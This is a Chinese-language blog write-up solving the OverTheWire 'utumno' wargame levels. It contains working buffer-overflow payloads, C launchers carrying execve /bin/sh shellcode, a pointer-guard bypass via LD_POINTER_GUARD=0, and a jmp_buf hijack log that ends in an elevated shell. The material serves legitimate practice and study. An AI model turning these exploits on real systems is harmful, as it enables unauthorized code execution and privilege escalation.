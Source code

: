 ```yaml
---
title: utumno
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

*   **utumno0**  
    和semtex4类似，这次的也是没有读权限。还是用xocopy把内容dump出来，elf地址用的是0x08048000。再用strings查看，发现类似是密码的内容

*   **utumno1**  
    会打开目录，检查包含的文件的文件名。必须要是以sh\_开头；然后漏洞在run函数里面，会把d\_name[3]的地址放到返回地址。所以把payload放在文件名sh_的后面即可。 

    把shellcode放环境变量，然后payload是跳转到那里 
    
    <pre>$ touch `perl -e 'print "1/sh_" . "\xb8\xf3\xd8\xff\xff\xff\xe0"'`
         $ /utumno/utumno1 1</pre>
    
*   **utumno2**  
    有点类似于之前的vortex4，也是要求argc为0，只能把payload放到环境变量里。argv={NULL},所以argv+40就是env[9]。我们把shellcode放到env[0]，env[9]放shellcode的地址，那么strcpy就会把返回地址重写。 
    在构造env时注意，在结束之前都不要包含NULL，否则会被认为env结束而忽略掉后面的内容 
        
{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env="ABCDABCDABCDABCDABCDABCD" "\xa9\xdf\xff\xff";
    char *shellcode = "SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *t = ""; 
    char *argv[] = {NULL};
    char *envp[] = {shellcode,t,t,t,t,t,t,t,t,env,NULL};
    //execve("././././envAddr", argv, envp);
    execve("/utumno/utumno2", argv, envp);
}
{% endhighlight %}
        
*   **utumno3**  
    这里会一个个地读字符，在v2那里可以做到修改返回地址。为此，我们找到v2和返回地址的距离是0x2c，那么往v1里填的字符就应该是0x2c^0, 0x2d^3, 0x2e^6, 0x2f^9。我试了invoke shell，但没反应，加上cat也不行；所以只好用读文件的shellcode了  
    <pre>$ perl -e 'print "\x2c\xc8\x2e\xd8\x28\xff\x26\xff"' | /utumno/utumno3</pre>
            
*   **utumno4**  
    memcpy当然存在overflow，因为复制的大小是我们提供的；虽然对大小做了个检查，但是是把大小存到short里面再比较的。由于起始位置与返回地址相距0xff0e，我们只需提供大小为0x10000，那么就可以覆盖到返回地址，并且大小检查也符合  
    <pre>$ /utumno/utumno4 65536 `perl -e 'print "A"x65294 . "\xef\xd8\xff\xff"'`</pre>
                
*   **utumno5**  
    和utumno2类似，不过问题在函数hihi里。这次检查了字符串的长度，最多只能覆盖保存的ebp，但通过修改ebp，可以使main函数返回时的`leave`跳到错误的地方，进而返回地址用我们提供的地址 

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env = "\xfe\xfe\xfe\xfe\xb1\xdf\xff\xff" "AAAAAAAA" "\xf8\xdd\xff\xff";
    char *shellcode = "SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *t = "";
    char *argv[] = {NULL};
    char *envp[] = {shellcode,t,t,t,t,t,t,t,t,env,NULL};
    //execve("././././envAddr", argv, envp);
    //execve("././././ebpAddr", argv, envp);
    execve("././././utumno5", argv, envp);
}
{% endhighlight %}
                    
*   **utumno6**  
    malloc之后没有free，这点就很奇怪。于是通过v5=-1，可以修改v3的值为返回地址，那么接下来strcpy就可以修改返回地址了。  
    <pre>$ /utumno/utumno6 -1 0xffffd6fc `perl -e 'print "\xf4\xd8\xff\xff"'`</pre>
                        
*   **utumno7**  
    由于用的是exit，所以不能通过strcpy修改返回地址。由于jmp_buf保存在栈上，我们可以修改这个。 

    具体地，setjmp会保存寄存器 
                            
{% highlight objdump %}
(gdb) x/20i setjmp
   0xf7e4f280 <setjmp>: mov    0x4(%esp),%eax
   0xf7e4f284 <setjmp+4>:       mov    %ebx,(%eax)
   0xf7e4f286 <setjmp+6>:       mov    %esi,0x4(%eax)
   0xf7e4f289 <setjmp+9>:       mov    %edi,0x8(%eax)
   0xf7e4f28c <setjmp+12>:      lea    0x4(%esp),%ecx
   0xf7e4f290 <setjmp+16>:      xor    %gs:0x18,%ecx
   0xf7e4f297 <setjmp+23>:      rol    $0x9,%ecx
   0xf7e4f29a <setjmp+26>:      mov    %ecx,0x10(%eax)
   0xf7e4f29d <setjmp+29>:      mov    (%esp),%ecx
   0xf7e4f2a0 <setjmp+32>:      xor    %gs:0x18,%ecx
   0xf7e4f2a7 <setjmp+39>:      rol    $0x9,%ecx
   0xf7e4f2aa <setjmp+42>:      mov    %ecx,0x14(%eax)
   0xf7e4f2ad <setjmp+45>:      mov    %ebp,0xc(%eax)
   0xf7e4f2b0 <setjmp+48>:      push   $0x1
   0xf7e4f2b2 <setjmp+50>:      pushl  0x8(%esp)
   0xf7e4f2b6 <setjmp+54>:      call   0xf7e4f230 <__sigjmp_save>
{% endhighlight %}
                            
也就是说，依次保存ebx,esi,edi,ebp,处理过的esp,处理过的eip。由于处理时会和$gs:0x18做xor，这就导致结果不确定了……我试了下，确实每次运的时候，第5、6个的值都不一样。
                            
后来还是在网上搜了之后才发现的。ld.so的manual里是这么说的：
                        
> LD\_POINTER\_GUARD  
> (glibc since 2.4) Set to 0 to disable pointer guarding. Any other value enables pointer guarding, which is also the default.  
> Pointer guarding is a security mechanism whereby some pointers to code stored in writable program memory (return addresses saved by  
> setjmp(3) or function pointers used by various glibc internals) are mangled semi-randomly to make it more difficult for an attacker  
> to hijack the pointers for use in the event of a buffer overrun or stack-smashing attack. 
                        
也就是说，我们需要先 
                            
<pre>$export LD_POINTER_GUARD=0</pre>
                        
这样，每次jmp_buf里的esp和eip就不随机了，但rotation还是有的。我们用python来计算rotation 
                        
{% highlight python %}
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
{% endhighlight %}
                            

由于跳转到shellcode后，要保证栈可读可写，我们让esp还是恢复到正确的值，只是eip到环境变量里的shellcode。通过`jobs -l`获得进程的pid，再用`kill -10 pid`来发送信号。要发两次，第一次后调用strcpy，覆盖eip，等第二次信号时，跳到我们给的eip。此外，可能是jump的原因，两次信号要用不同的，正好他设了两个handler，10和12。 
                            
{% highlight bash %}
utumno7@melinda:/tmp/nabla$ /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
^Z
[1]+  Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ jobs -l
[1]+  1987 Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ kill -10 1987
utumno7@melinda:/tmp/nabla$ fg
/utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
^Z
[1]+  Stopped                 /utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
utumno7@melinda:/tmp/nabla$ kill -12 1987
utumno7@melinda:/tmp/nabla$ fg
/utumno/utumno7 `perl -e 'print "A"x128 . "\xfe"x16 . "\xff\x41\xaa\xff" . "\xff\xaf\xb1\xff"'`
$ id
uid=16007(utumno7) gid=16007(utumno7) euid=16008(utumno8) groups=16008(utumno8),16007(utumno7)
{% endhighlight %}

